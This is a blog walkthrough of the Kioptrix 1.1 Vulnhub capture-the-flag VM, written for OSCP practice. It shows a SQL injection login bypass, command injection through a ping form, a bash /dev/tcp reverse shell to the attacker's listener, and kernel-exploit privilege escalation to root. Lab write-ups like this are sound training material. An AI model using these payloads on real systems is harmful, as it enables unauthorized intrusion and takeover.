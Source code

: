 ```yaml
---
layout: post
title: Vulnhub - Kioptrix 1.1 Walkthrough
tags: [Hacking, Vulnhub, CTF]
---
```

Kioptrix 1.1 is a Boot to Root CTF available [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) on Vulnhub. It's difficulty is rated as Beginner. This VM is the second in the Kioprtix series and the second VM in my OSCP preparation series.  

The VM and my Kali instance are set up with NAT networking, so to discover the IP address of the VM I run netdiscover

![](/img/kioptrix1-2/netdiscover.png)

Once I obtain the IP, I then run a nmap scan and find the following ports: 22, 80, 111, 443, 631 and 3306. 
![](/img/kioptrix1-2/nmap1.png)
![](/img/kioptrix1-2/nmap2.png)

I visit the webpage hosted at port 80 and find a login panel 
![](/img/kioptrix1-2/login.png)

Having noted that there is a MySQL service running on port 3306 I attempted to manually conduct a SQLI attack with some common entires. I successfully get past the login panel by using the following

Username: admin
Password: 1' or '1'='1

I am taken to a page which has a form asking me to enter an IP address to ping. 
![](/img/kioptrix1-2/ping.png)

I enter the IP address of my kali box and another window loads which shows the result of my ping. I note that the output is that of running the ping command on a stardard linux box and I assume that this is very similar to the command injection in DVWA. To confirm this, I enter:

![](/img/kioptrix1-2/ping2.png)

{% highlight bash %}
192.168.5.129 && pwd
{% endhighlight %}

The results show that it accepts and prints my commands and confirms my assumptions
![](/img/kioptrix1-2/ping_result.png)

The next thing I do is to start a netcat listener using:
{% highlight bash %}
nc -lnvp 4444
{% endhighlight %}

I then enter the following into the Ping command form and wait to catch a shell. 
{% highlight bash %}
192.168.5.129 && bash -i >& /dev/tcp/192.168.5.129/4444 0>&1
{% endhighlight %}

![](/img/kioptrix1-2/shell.png)

This spawns a reverse shell as the user apache. I start my enumeration process and identify the kernel version as 2.6.9. I search through exploit-db and find a [Ring 0 Privilege Escalation](https://www.exploit-db.com/exploits/9542/) vulnerability that looks like it will work. I download the code and transfer it to the VM. I review the code and then compile as per the instructions. When I go to execute, I recieve an error 'no job control in this shell'. This means I do not have a full tty shell and I need to upgrade. I upgrade by using: 

{% highlight bash %}
python -c 'import pty; pty.spawn("/bin/sh")'
{% endhighlight %}

![](/img/kioptrix1-2/root.png)

The exploit runs and I confirm that I am root. I hunt around again in the mail folders, but there doesn't seem to be any hidden message in this VM - getting root is enough!

